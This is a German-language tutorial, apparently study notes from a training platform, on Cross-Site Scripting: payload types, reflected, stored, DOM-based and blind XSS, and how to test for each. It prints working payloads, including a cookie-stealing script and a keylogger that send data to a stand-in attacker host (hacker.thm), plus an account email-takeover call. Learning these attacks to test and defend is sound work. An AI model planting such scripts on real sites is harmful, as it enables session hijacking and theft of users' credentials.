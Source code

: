 Cross-Site Scripting, in der Cybersecurity-Community besser bekannt als XSS, wird als Injektionsangriff eingestuft, bei dem bösartiges JavaScript in eine Webanwendung eingeschleust wird, mit der Absicht, von anderen Benutzern ausgeführt zu werden.

##### Was ist eine XSS Payload?

Bei XSS Schwachstellen handelt es sich bei der Payload um Java Script Code der auf der Zielmaschine ausgeführt werden soll. 
Die Payload wird in zwei Teile Aufgeteilt. Die Intention und die Modification. 

Die Intention ist das was das Java Script tatsächlich tun soll, und die Modifikation ist die Änderung des Codes die wir brauchen damit der Code ausgeführt wird.

Hier ein paar beispiele zu XSS Intentions: 

PoC (Proof of Concept):
```
<script>alert('XSS');</script>
```
Das ist eine der Einfachsten Payloads, mit der Man demonstrieren möchte das es eine XSS Schwachstelle gibt. Diese Payload sorgt dafür das eine Alert Box sich öffnet mit einem Simplen Text String.

Session Stealing: 
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
Da Deteils einer user Session meistens in den Cookies gespeichert werden, sorgt dieses Script dafür, dass die Cookies von dem Zielgerät genommen werden, Base64 verschlüsselt werden und sendet sie dann an eine vom Hacker kontrollierte Website, um sie zu protokollieren. Sobald der Hacker diese Cookies hat, kann er die Sitzung der Zielperson übernehmen und als dieser Benutzer protokolliert werden.

KeyLogger
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
Der Code Fungiert als Keylogger, d.h. alles was das Ziel auf der Website schreibt wird zu einem Server unter Kontrolle des Angreifers weitergeleitet. Das lohnt sich zum Beispiel bei Credit Karten Infos

Business Logic:
Diese Nutzlast ist sehr viel spezifischer als die obigen Beispiele. Hier geht es um den Aufruf einer bestimmten Netzwerkressource oder einer JavaScript-Funktion. Stellen Sie sich zum Beispiel eine JavaScript-Funktion zum Ändern der E-Mail-Adresse des Benutzers mit dem Namen `user.changeEmail()` vor. Ihr Payload könnte wie folgt aussehen:
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Da nach Ausführung von diesem Script die Email Adresse des Accounts geändert wurde kann der Angreifer nun z.B. das Passwort wechseln


### Reflected XSS

Reflected XSS tritt auf, wenn vom Benutzer bereitgestellte Daten in einer HTTP-Anfrage ohne jegliche Validierung in den Webseiten-Quellcode aufgenommen werden.
Beispiel zur Erläuterung:_
Eine Website die bei Falschem Input eine Error Nachricht Anzeigt. Der Inhalt der Fehlermeldung wird aus dem Error parameter im Query-String übernommen und direkt in den Seitenquelltext eingebaut.
https://imgur.com/0Wq8biY
Die Anwendung Kontrolliert den Inhalt des Error Parameters nicht, was dem Angreifer erlaubt hier Schad Code einzubauen. Dies könnte dann so aussehen:
https://imgur.com/4o5Z9Y3

##### Wie Teste ich auf Reflected XSS Schwachstellen?
Dazu muss man jeden möglichen Einstiegspunkt testen, z. B:
Parameter im URL Query String
URL-Dateipfad
Manchmal HTTP-Header (obwohl es unwahrscheinlich ist, dass sie in der Praxis ausgenutzt werden können)

Sobald man Daten gefunden hat, die in der Webanwendung widergespiegelt werden, muss man bestätigen, dass man seine JavaScript-Payload erfolgreich ausführen kann; die Payload hängt davon ab, wo in der Anwendung Ihr Code widergespiegelt wird 

### Stored XSS

Wie der Name schon sagt, wird die XSS-Payload in der Webanwendung (z. B. in einer Datenbank) gespeichert und dann ausgeführt, wenn andere Benutzer die Website oder Webseite besuchen.

Bsp.:
https://imgur.com/FCY0k0M

##### Wie Teste ich auf Stored XSS Schwachstellen?
Man muss jeden möglichen Einstiegspunkt testen, an dem Daten gespeichert werden und dann in Bereichen angezeigt werden, auf die andere Benutzer Zugriff haben; ein kleines Beispiel hierfür könnten sein:
Kommentare in einem Blog
Benutzerprofilinformationen
Website-Auflistungen
-> Manchmal Ist bei einer Website lediglich eine Begrenzung von Eingabewerten nur auf der Client Site, so dass das Ändern von Werten in etwas, das die Webanwendung nicht erwarten würde, eine gute Quelle für die Entdeckung von gespeichertem XSS ist z.B. ein Feld zur Alters Erfassung. das eine ganze Zahl aus einem Dropdown-Menü erwartet, aber stattdessen sendet man die Anfrage manuell (bsp. via Burp), anstatt das Formular zu verwenden, was es einem ermöglicht, bösartige Nutzdaten zu testen.


### DOM Based XSS

Begriffserklärung DOM 
DOM Steht für Document Object Model und ist ein Programmier interface für HTML und XML Dokumente. Es stellt die Seite so dar, dass Programme die Struktur, den Stil und den Inhalt des Dokuments ändern können. Eine Webseite ist ein Dokument, und dieses Dokument kann entweder im Browserfenster oder als HTML-Quelle angezeigt werden. Ein Diagramm des HTML-DOM ist unten abgebildet:
Bsp.:
https://imgur.com/Hrkr8s2
Weitere infos zu DOM Dokumenten gibt es auf https://www.w3.org/TR/REC-DOM-Level-1/introduction.html


##### Wie wird DOM exploited?

DOM-basiertes XSS bedeutet, dass die JavaScript-Ausführung direkt im Browser erfolgt, ohne dass neue Seiten geladen oder Daten an den Backend-Code übermittelt werden. Die Ausführung erfolgt, wenn der JavaScript-Code der Website auf Eingaben oder Benutzerinteraktionen reagiert.

Beispiel Szenario:
Eine Website mit Java Script bekommt Inhalte aus dem "window.location.hash" parameter und schreibt diese Inhalte auf die aktuell gezeigte website. Allerdings werden die Inhalte dieser Hashes nicht auf malicious code gechecked. Dies Ermöglicht es einen Angreifer hier JavaScript einzubauen wie es ihm gefällt.

##### Wie Teste ich auf DOM Based XSS?
DOM-basiertes XSS kann schwierig zu testen sein und erfordert ein gewisses Maß an Kenntnissen über JavaScript, um den Quellcode zu lesen. Man muss nach Teilen des Codes suchen, die auf bestimmte Variablen zugreifen, über die ein Angreifer die Kontrolle haben können, wie z. B. „window.location.x“-Parameter.
Wenn man solche Teile des Codes gefunden hat, muss man sehen, wie sie behandelt werden und ob die Werte jemals in das DOM der Webseite geschrieben oder an unsichere JavaScript-Methoden wie eval() übergeben werden.


### Blind XSS

Blind XSS ähnelt einem gespeicherten XSS, bei dem Ihre Nutzdaten auf der Website gespeichert werden, so dass ein anderer Benutzer sie sehen kann, aber in diesem Fall kann man nicht sehen, wie die Nutzdaten funktionieren, und kann sie auch nicht zuerst an sich selbst testen.

##### Beispiel-Szenario:
Eine Website verfügt über ein Kontaktformular, über das man einem Mitarbeiter eine Nachricht zukommen lassen kann. Der Inhalt der Nachricht wird nicht auf bösartigen Code geprüft, so dass der Angreifer alles eingeben kann, was er möchte. Diese Nachrichten werden dann in Support-Tickets umgewandelt, die die Mitarbeiter in einem privaten Webportal einsehen können.

##### Wie Teste ich auf Blind XSS?

Wenn man auf eine Blind XSS Testet muss man sicherstellen ein "Call back" implementiert zuhaben (Meistens via HTTP request). Dadurch bekommt man dann mit ob die Payload umgesetzt hat oder nicht.

Ein populäres Tool für Blind XSS angriffe ist XSS Hunter Express. Es ist zwar möglich, ein eigenes Tool in JavaScript zu erstellen, aber dieses Tool erfasst automatisch Cookies, URLs, Seiteninhalte und mehr.
Link XSS Hunter Express:
https://github.com/mandatoryprogrammer/xsshunter-express


### Beispiel Payloads 

Besser Aufbereitet Als Screenshots

Einleitung und Reflected im Code: 
http://imgur.com/zPpS6OY

Reflected in Input Tag
https://imgur.com/DiZpJN8

Stored mit Textarea
https://imgur.com/J9QLhwG

Reflected in JavaScript Code und Gefiltert nach Gefährlichen Wörtern
https://imgur.com/Chf0K99

Gefiltert mit Weiteren Attributen wie .img Seperat Polyglots
https://imgur.com/yrVwRww

Praktisches Beispiel einer Blind XSS 

https://imgur.com/TW8MH1P
https://imgur.com/s6Uifgc